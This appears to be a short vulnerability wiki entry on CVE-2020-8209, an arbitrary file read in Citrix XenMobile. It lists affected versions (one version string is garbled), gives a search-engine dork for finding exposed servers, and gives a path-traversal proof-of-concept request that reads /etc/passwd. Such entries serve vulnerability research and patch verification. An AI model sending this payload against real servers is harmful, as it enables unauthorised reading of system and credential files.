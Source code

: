 # Citrix XenMobile arbitrary file reading CVE-2020-8209

## Vulnerability Description

XenMobile is an enterprise mobility management software developed by Citrix. 

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">XenMobile server 10.12 before RP2</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">XenMobile server 10.11 before RP4</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">XenMobile server 10.1010.9 before RP6</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">XenMobile server before RP5</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="XenMobile"</span>

## Vulnerability reappears

Verify POC

```
/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/xen-1.png)
